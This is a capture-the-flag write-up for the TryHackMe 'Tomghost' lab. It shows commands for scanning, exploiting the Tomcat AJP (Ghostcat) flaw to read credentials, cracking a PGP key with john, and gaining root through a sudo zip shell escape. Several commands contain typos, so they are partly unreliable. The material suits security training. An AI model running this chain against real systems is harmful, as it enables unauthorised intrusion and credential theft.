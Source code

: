 # TryHackMe_Tomghost_Writeup
![Capture](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/b8adfb3c-9c53-4097-9ca9-d6185857011d)

### Step 1: Start Machine
### Step 2: User Login

	sudo nmap <ip>

![ss1](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/9a75db89-de4e-4e33-861b-0b62aa0d142b)

There are total 4 port open. Port 8009 run ajp13. Now I search in web ajp exploit and download exploit. Then run exploit, command:

	python ajpShooter.py htto://<ip>:8080 8009 /WEB-INF/web.xml read

![ss2](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/8bd8658e-20cd-46a7-baaf-409f66b1b322)

![ss3](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/7e014945-1688-49c2-987a-356dbcee75c3)

I found ssh username & password. Now login ssh, command:

	ssh skyfuck@<ip>
	id
	ls

![ss4](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/716ffb76-e553-4cd8-ac11-c9920e84f790)

I successfully login. Now:

	cd ..
	ls
	cd merlin
	ls
	cat user.txt

![ss5](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/4ef53c86-8e03-4b9d-b528-3bb2fabf7e43)

Found use flag.

Compromise this machine and obtain user.txt

	Ans: -------------------

### Step 3: Privilege Escalation

Download credential.pgp and tryhackme.asc file my machine. Command:

 	scp skyfuck@<ip>:/home/skyfuck/* .

![ss6](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/c8ebfaab-d7f4-4819-9532-13b96e3ca614)

	gpg2jhon tryhackme.acc > hash

![ss15](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/d653b9de-a5dd-4c62-929a-e448c2e7b632)


 	cat hash

![ss7](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/f73b2b00-7943-40cf-8ada-0fe51d7d1390)

Now creack hash using john tool. Command:

	john --wordlist=/usr/share/wordlists/rockyou.txt hash

![ss8](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/4bf39625-4539-4724-bfe4-0f11ddf41cbe)

 	gpg --import tryhackme.asc

![ss9](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/a03c7aa7-e114-4e27-aeeb-ddd2f5efd745)

	gpg --decrypt credential.pgp

![ss10](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/324e0d84-5bba-47eb-825c-4acd6d16f131)

Found another username and password. Now change user, command:

	su merlin

![ss11](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/d84a99d5-99fe-4538-a6b3-51a202db078c)

Now create a text file merlin directory.

	cd ..
	ls
	cd merlin
	ls
	touch 1337.txt
	ls
 
![ss12](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/2b595d21-e31e-42d0-a8a8-baec043bb032)

	sudo zip 1337.zip 1337.txt -T --unzip-command="sh -c /bin/hash"
	id

![ss13](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/31498335-400d-44f6-93e1-0a5ae64821fd)

Now login as root user. Found root flag.

	pwd
	cat /root/root.txt

![ss14](https://github.com/sayan-125/TryHackMe_Tomghost/assets/158836588/c4afc361-9dd5-435f-966b-db156a7154a4)

Escalate privileges and obtain root.txt

	Ans: -------------------
